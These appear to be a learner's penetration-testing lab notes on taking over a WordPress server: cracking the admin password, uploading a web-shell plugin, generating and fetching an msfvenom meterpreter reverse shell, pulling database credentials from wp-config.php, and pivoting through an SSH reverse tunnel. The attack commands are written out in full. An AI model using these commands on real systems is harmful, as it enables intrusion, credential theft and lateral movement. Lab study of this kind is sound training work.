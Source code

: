 ## Cracking the password 
1. Create a file containing the password hash ![[Pasted image 20221109170521.png]] 
2. Use John and the --wordlist option to try to crack that file.   This results in !love29jan2006!
3. Try to log into the admin page at **/wp-admin** and note that you're in !  Enumeration continues.

## Enumerating the Admin Interface 
1. Good starting point is the *Tools > Site Health > Info* tab to get further info on server versions/IP Addy, DB versions/IP Addy, etc. 
2. Because we have admin access, we can install plugins.  In the case of wordpress, there are already quite a few in the *seclists* package under Web-Shells.  ***remember Danté*** 

## Obtaining a Shell 
1. Because the webapp accepts plugins in .zip format, we must #zip the plugin 
	- **sudo zip plugin-shell.zip plugin-shell.php** 
2. With that done, the shell needs to be uploaded.
3. Once it's uploaded,we can use it to attempt to run systme commands on the wp target using *cURL* ![[Pasted image 20221109171610.png]] 
4. Now, we work on a full reverse shell by generating a meterpreter payload using **msfvenom** (Use port 443to avoid any outbound firewall rules)
	- **msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf** 
5. Once that's completed, set up a python webserver so the target can download the shell
	- **sudo python3 -m http.server 80**
6. Use cURL again to wget the file.  ***note*** you must encode spaces in URLs.  You should note an entry in your python server. ![[Pasted image 20221109172105.png]] 
7. You need to make it executable, start a msf payload handler on Kali, and run the *elf* file to get a meterpreter shell.  Run **chmod +x** through cURL.![[Pasted image 20221109172312.png]] 
8. Start a meterter payload listener on the appropriate interfaceand port ![[Pasted image 20221109172400.png]] 
9. With that listener going, use cURL to get the #reverseShell  ![[Pasted image 20221109172442.png]] 

## Post-Ex Enumeration
1. Use the **ifconfig** / **ip a** command to get host and network config information
2. **hostname**, **cat /etc/issue**, **cat /proc/version** 
3. Knowing that the target is running WordPress and the #DB is on another host, there should be DB creds somewhere else. Google tells us that the **wp-config.php** file has DB config information. This gives us creds and a DB IP addy ! ![[Pasted image 20221110153545.png]] 

## Creating a stable #pivot point
since the WordPress machine nad the DB are on separate networks, this is a great time to use a #tunnel.
1. From the WebServer we don't have nmap installed.  This is a good time for a quick script to scan the host. ![[Pasted image 20221110154005.png]]
2. Once the script is created, upload it to the WordPress machine, give it a **chmod +x**, and execute it.  In this case, we see that for the DB server, ports 22 and 3306 are open. So let's set up the #reverseTunnel  **ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 kali@10.11.0.4**.  We also want to add here 2 flags to automatically accept the host key of our Kali machine.  **-o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"** 
	1. All together, this command looks like **ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@10.11.0.4** 
2. Next, we need to generate ssh keys on the WordPress host to avoid bing asked for a password. 
	1. **mkdir keys**
	2. **cd keys**
	3. **ssh-keygen**
	4. **cat id_rsa.pub** 
		1. This new public #key needs to be entered in our Kali host's **authorized_keys** file too allow the private key (web server) to log in to our Kali machine, but prevents them from running commands and only allows for port forwarding. ![[Pasted image 20221110160243.png]] 